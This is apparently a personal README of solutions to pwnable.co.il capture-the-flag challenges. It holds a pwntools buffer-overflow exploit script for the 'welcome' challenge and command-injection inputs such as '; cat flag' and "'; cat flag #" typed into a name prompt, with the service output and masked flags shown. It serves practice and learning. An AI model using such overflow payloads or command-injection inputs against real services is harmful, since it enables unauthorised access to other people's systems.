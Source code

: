 # pwnable.co.il
pwnable.co.il my solutions


## welcome

```python
from pwn import *

r = remote('pwnable.co.il', 9000)
exe = ELF('welcome')
r.recvuntil('name?\n')
offset = 40

payload = b'a'*offset 
payload += p64(0x000000000040076c)
payload += p64(0x400708)
#print(payload)
r.sendline(payload)
r.interactive()
```


## dog1

first run ` ; ls ` in order to check what files are in the current direcotry
```
tal@tal-VirtualBox:~$ nc pwnable.co.il 9013

Hello!

What's your name?
; ls

Hello
dog
flag
ynetd
Thanks!
```
there is ` flag `, Lets cat it!

```
Hello!
What's your name?

; cat flag 

Hello
PWNIL{XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX}
Thanks!
```

## dog2

first run ` '; ls # ` in order to check what files are in the current direcotry

```
tal@tal-VirtualBox:~$ nc pwnable.co.il 9016

Hello!

What's your name?
'; ls #

Hello
dog2
flag
ynetd
Thanks!
```

now, Lets read from flag!

```
tal@tal-VirtualBox:~$ nc pwnable.co.il 9016
Hello!
What's your name?
'; cat flag #

Hello 
PWNIL{XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX}
Thanks!
```

